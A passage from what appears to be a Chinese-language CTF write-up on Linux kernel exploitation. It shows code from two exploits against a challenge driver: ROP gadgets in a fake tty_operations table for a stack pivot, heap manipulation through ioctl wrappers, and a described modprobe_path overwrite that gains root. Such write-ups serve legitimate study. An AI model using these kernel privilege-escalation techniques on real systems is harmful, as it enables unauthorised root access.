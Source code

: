     	add(2, 0x100, (char *)rop);
    	
    	fake_tty_operations[7] = off + 0xffffffff810608d5; // push rax; pop rsp; ret;
    
    	fake_tty_operations[0] = off + 0xffffffff810484f0; // pop rsp; ret;
    	fake_tty_operations[1] = heap_addr;
    
    	((size_t *)buf)[3] = heap_addr + 0x100;
    	
    	delete(3);
    	add(3, 0x100, (char *)fake_tty_operations);
    
    	edit(1, 0x400, -0x400, buf);
    
    	write(fd_tty, "FXC", 3);
    	return 0;
    }
    

### `exp2`

`mod_tree`：可以泄露驱动地址，当堆栈中找不到时可以来这里查找。

`modprobe_path`：当我们执行一个非法文件时，就会以`root`权限去执行`modprobe_path`所指向的文件，通常是指向`/sbin/modprobe`，如果改成我们创建的`cat flag`的文件，那么就可以拿到`flag`

    #include <stdio.h>
    #include <stdlib.h>
    #include <stdint.h>
    #include <unistd.h>
    #include <fcntl.h>
    #include <sys/ioctl.h>
    #include <string.h>
    
    int fd;
    size_t heap_base, vmlinux_base, mod_tree, modprobe_path, ko_base, pool_addr;
    
    struct Heap{
        size_t index;
        char *data;
        size_t len;
        size_t offset;
    };
    
    void add(int index, size_t len, char *data)
    {
    	struct Heap heap;
    	heap.index = index;
    	heap.data = data;
    	heap.len = len;
    	ioctl(fd, 0x30000, &heap);
    }
    
    void delete(int index)
    {
    	struct Heap heap;
    	heap.index = index;
    	ioctl(fd, 0x30001, &heap);
    }
    